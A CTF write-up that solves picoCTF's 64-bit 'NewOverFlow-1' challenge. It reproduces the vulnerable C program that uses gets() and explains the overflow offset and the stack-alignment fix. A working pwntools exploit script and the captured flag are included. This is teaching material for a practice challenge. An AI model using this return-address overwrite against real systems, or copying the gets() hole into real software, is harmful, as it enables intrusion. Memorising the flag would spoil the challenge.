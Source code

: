 # NewOverFlow-1: Points: 200

Note: I was not able to solve this challenge during the CTF.
I decided to revisit this challenge afterwards, once I had learned more about binary exploitation.
It seemed like a relatively simple task, so at first, I wasn't sure why my payload was failing to produce a flag.
Some research led me to the issue of stack misalignment, the solution to which is demonstrated in this writeup.

## Description

Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123 on the shell server. Source.

## Solution

This challenge is very similar to OverFlow 1, however, it is slightly complicated by the fact that it is a 64-bit program.
Regardless, the goal is still to overwrite the return address and call the ```flag()``` function.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

We know that the buffer size is 64 bytes, and that 8 bytes will be reserved for the RBP, therefore, we can include padding of 72 bytes and start writing our recognisable pattern.
This time, it is ideal to use 8-character chunks as opposed to 4-character chunks, so the string might look like AAAAAAAABBBBBBBBCCCCCCCC...

If we run the program in GDB and check the value if RBP, we'll find that its been overwritten with whichever character was used for padding.
Using this, we know that the return address is begin overwritten with 0x4141414141414141.

We're able to call the ```flag()``` function successfully, however, the program throws a segmentation fault error when trying to print the flag.
This is because the 72-byte payload offset the call stack so that it was no longer a multiple of 16 bytes.

To resolve this, we can remove 8 bytes from the stack by having the function first return to the last line of itself, essentially calling `ret` twice, and writing the address of ```flag()``` directly after that.

## Exploit script

This script is similar to the script from OverFlow 1, however, it uses the ```p64()``` function to format the addresses for a 64 bit program.

Note that the address of the last instruction of the ```vuln()``` is our first return address.
As the instruction here is a `ret` instruction, it will immediately read the next value on the stack and return to it, this being the address of the ```flag()``` function.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)
print(vuln.recvline())

print("sending payload")
vuln.sendline(('A'*72).encode() + p64(0x00000000004007e7) + p64(0x0000000000400767) + '\n'.encode())

print("done")
vuln.interactive()
```

## Flag

```picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_7a154fef}```

